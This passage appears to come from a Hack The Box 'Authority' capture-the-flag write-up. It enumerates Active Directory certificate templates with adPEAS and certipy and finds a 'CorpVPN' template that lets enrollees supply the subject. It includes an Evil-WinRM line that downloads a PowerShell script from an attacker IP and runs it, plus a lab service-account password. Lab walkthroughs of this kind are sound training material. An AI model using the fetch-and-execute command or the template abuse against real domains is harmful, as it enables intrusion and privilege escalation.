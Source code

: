 ## Post Credential Enumeration

After logging into the machine, I checked the user's privileges and if it was a member of any vulnerable group.

Since there were few users, I tried enumerating initially with Winpeas and then moved on to Adpeas which showed some suspicious server certificates.

```jsx
*Evil-WinRM* PS C:\windows\tasks> iex(iwr 10.10.14.112:8000/adPEAS.ps1 -UseBasicParsing)
```

It can be seen that the template “CorpVPN” has `ENROLLEE_SUPPLIES_SUBJECT` flag as true and Domain Computer has enrolment rights for this template.

```jsx
[?] +++++ Checking Template 'CorpVPN' +++++
[!] Template 'CorpVPN' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
[+] Identity 'HTB\Domain Computers' has enrollment rights for template 'CorpVPN'
Template Name:				CorpVPN
Template distinguishedname:		CN=CorpVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=authority,DC=htb
Date of Creation:			03/24/2023 23:48:09
[+] Extended Key Usage:			Encrypting File System, Secure E-mail, Client Authentication, Document Signing, 1.3.6.1.5.5.8.2.2, IP Security User, KDC Authentication
EnrollmentFlag:				INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
[!] CertificateNameFlag:		ENROLLEE_SUPPLIES_SUBJECT
[+] Enrollment allowed for:		HTB\Domain Computers
```

This vulnerability could be easily confirmed with `certipy`.

```jsx
(venv) ┌─[✗]─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
```